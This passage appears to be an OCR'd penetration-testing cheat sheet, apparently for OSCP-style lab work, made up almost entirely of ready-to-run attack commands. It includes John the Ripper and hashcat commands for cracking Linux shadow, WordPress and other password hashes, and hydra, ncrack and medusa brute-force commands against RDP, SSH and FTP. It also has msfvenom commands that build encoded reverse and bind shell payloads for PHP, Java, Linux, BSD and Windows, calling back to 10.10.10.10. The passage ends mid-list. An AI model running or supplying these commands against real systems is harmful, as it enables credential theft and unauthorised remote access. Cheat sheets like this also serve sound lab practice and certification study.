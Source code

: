 
$ unshadow passwd shadow > unshadow.db
$ john unshadow.db
```


# Hashcat SHA512 $6$ shadow file  
hashcat -m 1800 -a 0 hash.txt rockyou.txt --username

#Hashcat MD5 $1$ shadow file  
hashcat -m 500 -a 0 hash.txt rockyou.txt --username

# Hashcat MD5 Apache webdav file  
hashcat -m 1600 -a 0 hash.txt rockyou.txt

# Hashcat SHA1  
hashcat -m 100 -a 0 hash.txt rockyou.txt --force

# Hashcat Wordpress  
hashcat -m 400 -a 0 --remove hash.txt rockyou.txt
```

RDP user with password list


ncrack -vv --user offsec -P passwords rdp://10.10.10.10
```

SSH user with password list


hydra -l user -P pass.txt -t 10 10.10.10.10 ssh -s 22
```

FTP user with password list


medusa -h 10.10.10.10 -u user -P passwords.txt -M ftp
```

**MSFVenom Payloads**


# PHP reverse shell  
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php

# Java WAR reverse shell  
msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war

# Linux bind shell  
msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai

# Linux FreeBSD reverse shell  
msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf

# Linux C reverse shell  
msfvenom  -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f c

# Windows non staged reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe

# Windows Staged (Meterpreter) reverse shell  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o meterpreter.exe

# Windows Python reverse shell  
```